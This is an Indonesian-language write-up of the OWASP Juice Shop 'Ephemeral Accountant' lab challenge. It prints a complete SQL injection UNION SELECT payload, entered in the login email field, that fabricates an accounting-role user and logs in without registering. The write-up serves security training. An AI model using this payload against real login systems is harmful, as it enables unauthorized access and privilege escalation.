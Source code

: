 # Ephemeral Accountant

🔗 **Resource Link:** [Juice Shop - Injection Challenges](https://juice-shop.herokuapp.com/#/score-board?categories=Injection&showDisabledChallenges=false)

---

## Langkah Penyelesaian

1. **Menganalisis Struktur Database Users**  
   Pertama, dilakukan pengecekan untuk memahami bagaimana tabel **users** tersimpan dalam database.  

   <img width="1500" alt="analyze-users" src="https://github.com/user-attachments/assets/5ebb5a46-dcd8-4e20-a839-bef21adcad80">

---

2. **Membuat dan Menyisipkan Akun Baru dengan Payload**  
   Selanjutnya, disusun payload SQL Injection berikut untuk membuat akun baru secara langsung di database:  

' UNION SELECT * FROM (
SELECT 20 AS id,
'acc0unt4nt@juice-sh.op
' AS username,
'acc0unt4nt@juice-sh.op
' AS email,
'test1234' AS password,
'accounting' AS role,
'123' AS deluxeToken,
'1.2.3.4' AS lastLoginIp,
'/assets/public/images/uploads/default.svg' AS profileImage,
'' AS totpSecret,
1 AS isActive,
12983283 AS createdAt,
133424 AS updatedAt,
NULL AS deletedAt
) AS tmp WHERE '1'='1';--


Payload ini digunakan pada kolom *email* saat login.  
Hasilnya, akun **acc0unt4nt@juice-sh.op** berhasil ditambahkan dan dapat digunakan untuk login tanpa perlu registrasi.  

<img width="1500" alt="payload-login" src="https://github.com/user-attachments/assets/fa2e797c-5d45-44f0-80b1-fc8cb4af7a53">

<!-- <img width="1500" alt="account-created" src="https://github.com/user-attachments/assets/3449aef9-5ccc-448f-b290-8a04bb817286">

<img width="1500" alt="challenge-solved" src="https://github.com/user-attachments/assets/da04c3e2-c3cc-45c9-92a7-c390d22ea5b6"> -->

---

## Kesimpulan
- Struktur tabel **users** dapat diakses dan dianalisis menggunakan SQL Injection.  
- Payload UNION SELECT dimanfaatkan untuk membuat akun baru secara langsung dalam database.  
- Login berhasil dilakukan menggunakan akun buatan tanpa melalui proses registrasi.  
- Challenge *Ephemeral Accountant* pun terselesaikan.  

